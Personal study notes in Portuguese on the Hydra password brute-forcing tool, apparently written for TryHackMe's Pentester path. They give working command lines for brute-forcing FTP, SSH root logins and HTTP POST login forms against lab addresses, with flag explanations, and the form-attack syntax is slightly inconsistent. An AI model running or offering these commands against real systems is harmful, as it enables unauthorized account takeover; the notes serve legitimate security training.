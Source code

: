 # Hydra - Essentials

> Aqui vou compartilhar minhas notas pessoais sobre cada um dos temas aprendidos no camihno Pentester do TryHackMe

Hydra é um programa de quebra de senhas online por força bruta, uma ferramenta rápida de “hacking” de senha de login do sistema. 

As opções que passamos para o Hydra depende de qual protocolo estamos atacando.

## FTP

Por ex, se quisermos realizar um ataque de força bruta no FTP com o usuário já configurado e uma lista de senhas, usuariamos:

`hydra -l user -P passlist.txt ftp://MACHINE_IP`

--- 

## SSH

Já, se quisessemos fazer um ataque SSH, fariamos: 

`hydra -l <username> -P <full path to pass> 10.201.32.244 -t 4 ssh`

Exemplo de preenchido:

`hydra -l root -P passwords.txt 10.201.32.244 -t 4 ssh`

O Hydra usará o usuário root, e irá usar o passlist de passwords.txt, o alvo é 10.201.32.244 e iremos enviar 4 threads por segundo no serviço SSH.

---

## POST Login

Podemos enviar qualquer método, verificar a aba "Network" do navegador para identificar possíveis ataques.

`sudo hydra <username> <wordlist> 10.201.32.244 http-post-form "<path>:<login_credentials>:<invalid_response>"`

Na estrutura acima:

- "-l" o nome do usuario
- "-P" a lista de senhas
- "http-form-post" o tipo do form
- "<path>" é o caminho do form, por ex: login.php
- <login_credentials> é o login, por exemplo: `username=^USER^&password=^PASS^`
- <invalid_response> é a resposta de senha errada, etc.
- "-V" saída detalhada para cada tentativa.

Abaixo um comando mais completo para isso:

`hydra -l <username> -P <wordlist> 10.201.32.244 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect." -V`